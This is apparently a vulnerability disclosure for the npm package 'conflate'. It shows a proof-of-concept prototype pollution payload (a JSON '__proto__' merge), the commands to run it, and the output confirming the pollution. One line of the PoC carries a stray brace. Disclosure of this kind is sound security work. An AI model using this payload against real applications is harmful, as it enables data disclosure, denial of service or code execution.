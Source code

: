 # Description

`conflate` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const conflate = require('conflate')

console.log('Before: ', {}.polluted})
conflate({}, JSON.parse('{"__proto__": {"polluted": true}}'))
console.log('After: ', {}.polluted)
```
2. Execute the following commands in the terminal:
```bash
npm i conflate # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.
